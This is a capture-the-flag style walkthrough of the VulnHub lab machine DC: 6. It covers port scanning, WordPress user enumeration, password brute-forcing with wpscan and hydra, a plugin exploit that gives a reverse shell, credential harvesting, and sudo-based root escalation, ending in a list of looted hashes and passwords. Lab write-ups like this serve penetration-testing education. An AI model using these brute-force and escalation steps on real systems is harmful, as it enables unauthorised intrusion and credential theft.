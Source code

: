 [VulnHub] DC: 6
===============
date: 10/Sep/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [DC: 6](https://www.vulnhub.com/entry/dc-6,315/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_dc6/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Tue Sep 10 18:09:50 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/vulnhub/dc6/results/wordy/scans/_quick_tcp_nmap.txt -oX /root/toolbox/vulnhub/dc6/results/wordy/scans/xml/_quick_tcp_nmap.xml wordy
Nmap scan report for wordy (192.168.92.170)
Host is up, received arp-response (0.00024s latency).
Scanned at 2019-09-10 18:09:51 PDT for 8s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDDHiBBFUtpw1T9DZyoXpMp3kg25/RgmGZRFFmZuTfV9SJPxJCvrQXdM6P5GfFLFcgnLlcOBhBbv33N9HvWisycRypK0uLK26bntqfyTAFCdMXcud7fKNgRBxJdN8onwl4Hly3wzRBJxFWqTdD1RF8viYH4TYIs5+WLpN7KihosjpbwzPpOnbDQZUw7GdHvosV7dFI6IMcF57R4G5LzSgV66GACNGxRn72ypwfOMaVbsoxzCHQCJBvd8ULL0YeAFtNeHoyJ8tL3dZlu71Wt9ePYf7ZreO+en701iDqL6T/iyt3wwTDl7NwpZGj5+GrlyfRSFoNyHqdd0xjPmXyoHynp
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE+jke+7np4l7EWf0wgySSp3MtYFcI6klVOWm7tDjas8eDxc9jYOhR4uK7koa2CkQPDd18XJSt0yNAGQFBb7wzI=
|   256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII1mnJveN8yJySEDhG8wjYqtSKmcYNdX5EVqzxYb92dP
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Wordy &#8211; Just another WordPress site
MAC Address: 00:0C:29:F1:97:73 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 10 18:09:59 2019 -- 1 IP address (1 host up) scanned in 8.96 seconds
```

2\. We start with `80/tcp` and are presented with a `Wordpress` installation. We run `wpscan` to enumerate users and find 5 hits:  
```
admin, graham, mark, sarah and jens
```

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot01.png)  

### Findings
#### Open Ports
```
22/tcp  |  ssh   |  OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.25 ((Debian))
```
#### Users
```
ssh: graham, mark, sarah, jens
wordpress: admin, graham, mark, sarah, jens
```

## Phase #2: Exploitation
1\. The VulnHub page for this VM gave a clue to create a custom wordlist from `rockyou.txt` to save time on bruteforce. This was a good starting point:  
```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

2\. We run a Wordpress password bruteforce scan and find a hit for user `mark`:  
```
wpscan --url http://wordy/ --wordlist ./passwords.txt → helpdesk01
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot04.png)  

3\. Running a Wordpress password bruteforce scan using `hydra` gave similar results:  
```
hydra -l mark -P passwords.txt 192.168.92.170 http-post-form "/wp-login.php:log=mark&pwd=^PASS^:ERROR" → helpdesk01
```

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot02.png)  

4\. We use these credentials and login as user `mark`:  

![writeup.exploitation.steps.4.1](/static/files/posts_vulnhub_dc6/screenshot03.png)  

5\. This installation has `Activity Monitor` plugin installed. There's an exploit for this plugin on ExploitDB:  

![writeup.exploitation.steps.5.1](/static/files/posts_vulnhub_dc6/screenshot16.png)  

6\. We update the exploit with right IPs and chnage the `nc` commandline. This file when opened shows a HTML button which when clicked will execute the command and return a reverse shell:  

![writeup.exploitation.steps.6.1](/static/files/posts_vulnhub_dc6/screenshot08.png)  

![writeup.exploitation.steps.6.2](/static/files/posts_vulnhub_dc6/screenshot09.png)  

![writeup.exploitation.steps.6.3](/static/files/posts_vulnhub_dc6/screenshot05.png)  

## Phase #2.5: Post Exploitation
```
www-data@dc-6> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dc-6>  
www-data@dc-6> uname
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
www-data@dc-6>  
www-data@dc-6> ifconfig
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
  link/ether 00:0c:29:f1:97:73 brd ff:ff:ff:ff:ff:ff
  inet 192.168.92.170/24 brd 192.168.92.255 scope global eth0
     valid_lft forever preferred_lft forever
  inet6 fe80::20c:29ff:fef1:9773/64 scope link
     valid_lft forever preferred_lft forever
www-data@dc-6>  
www-data@dc-6> users
graham
mark
sarah
jens
```

## Phase #3: Privilege Escalation
1\. Exploring the filesystem, we come across `/var/www/html/wp-config.php` file that has MySQL credentials in it:  
```
wpdbuser/meErKatZ
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_dc6/screenshot06.png)  

2\. We also extract hashes for all Wordpress users from `wp_users` table:  

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot07.png)  

3\. Exploring filesystem further, we find credentials for user `graham` within the `/home/mark/stuff/things-to-do.txt` file:  
```
graham/GSo7isUM1D4
```

![writeup.privesc.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot11.png)  

4\. We `ssh` into the system as user `graham` to gain interactive access:  

![writeup.privesc.steps.4.1](/static/files/posts_vulnhub_dc6/screenshot12.png)  

5\. User `graham` can edit and execute the `/home/jens/backups.sh` as user `jens`. We modify the script to execute a shell and gain interactive access as user `jens`:  

![writeup.privesc.steps.5.1](/static/files/posts_vulnhub_dc6/screenshot13.png)  

6\. User `jens` can execute `/usr/bin/nmap` as `root`. We use this to gain elevated privileges and read the flag:  

![writeup.privesc.steps.6.1](/static/files/posts_vulnhub_dc6/screenshot14.png)  

![writeup.privesc.steps.6.2](/static/files/posts_vulnhub_dc6/screenshot15.png)  

## Loot
### Hashes
```
root:$6$kdMFceEg$pk9h93tdD7IomhE7L0Y396HO6fxSM.XDh9dgeBhKpdZlM/WYxCZe7yPRNHfZ5FvNRuILVp2NOsqNmgjoS........................
graham:$6$WF7GkVxM$MOL.cXLpG6UTO0M4exCUFwOEiUhW6bwQa.Frg9CerQbTp.EW4QTzEAuio26Aylv.YP0JPAan10tsUFv6k........................
mark:$6$//1vISW6$9pl2v8Jg0mNE7E2mgTQlTwZ1zcaepnDyYE4lIPJDdX7ipnxm/muPD7DraEm3z0jqDe5iH/Em2i6YXJpQD........................
sarah:$6$DoSO7Ycr$2GtM5.8Lfx9Sw8X1fDMF.7zWDoVoy1892nyp0iFsqh5CfmtEROtxmejvQxu0N/8D7X8PQAGKYGl.gUb6/........................
jens:$6$JWiFWXb8$cGQi07IUqln/uLLVmmrU9VLg7apOH9IlxoyndELCGjLenxfAaVec5Gjaw2DA0QHRwS9hTB5cI2sg/Wk1O........................
```
### Credentials
```
mysql: wpdbuser/meEr....
ssh: graham/GSo7isU....
wordpress: mark/helpdes...
```

## References
* <https://www.vulnhub.com/entry/dc-6,315/>  
* <https://diaryof0x41.wordpress.com/2019/05/29/vulnhub-dc-6-walkthrough/>  
